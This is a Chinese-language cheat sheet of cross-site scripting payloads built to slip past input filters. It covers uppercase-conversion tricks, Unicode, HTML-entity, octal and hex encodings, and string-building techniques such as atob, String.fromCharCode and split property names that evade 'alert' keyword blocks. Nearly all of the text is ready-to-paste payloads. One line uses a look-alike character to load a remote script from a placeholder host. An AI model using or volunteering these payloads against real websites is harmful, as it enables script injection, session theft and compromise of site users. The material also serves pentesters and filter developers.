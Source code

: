 ## 绕过 ｜ 编码

```python
绕过全部转换为大写：
<IMG SRC="X" ONERROR=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
古字符与 toUppercase() : <ſcript src="https://xxxx/j.js"></script>
```



## 字符编码

可使用 Unicode 编码绕过

```python
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

十进制，八进制，十六进制

则除了 Unicode 外，我们还可以采用多种编码

```python
<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>
<img src=x onerror="eval('\x61lert(1)')"/>
<img src=x onerror="&#x0061;lert(1)"/>
<img src=x onerror="&#97;lert(1)"/>
<img src=x onerror="eval('\a\l\ert(1)')"/>
```

同时可使用多种编码

```python
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>
```

## 构造字符串

通常 alert 关键字被阻止，但是很可能未检测到“ ale” +“ rt”。

JavaScript 具有一些可用于创建字符串的函数。

```python
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)

<img src onerror=_=alert,_(1)>
<img src alt=al lang=ert onerror=top[alt+lang](1)>
<img src onerror=top[a='al',b='ev',b+a]('alert(1)')>
<img src onerror=['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)>
```
